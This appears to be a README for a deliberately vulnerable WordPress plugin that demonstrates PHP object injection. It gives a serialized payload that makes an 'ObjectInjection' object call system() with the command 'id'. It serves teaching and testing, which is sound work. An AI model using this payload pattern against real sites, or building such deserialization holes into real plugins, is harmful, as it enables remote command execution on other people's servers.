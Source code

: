 # WP Object Injection Proof of Concept
This is a simple plugin to make PoC of PHP Object Injection in Wordpress.

## Payload
```
echo serialize(new ObjectInjection("system","id"));
O:15:"ObjectInjection":2:{s:20:"ObjectInjectioncmd";s:2:"id";s:20:"ObjectInjectionfcn";s:6:"system";}
```
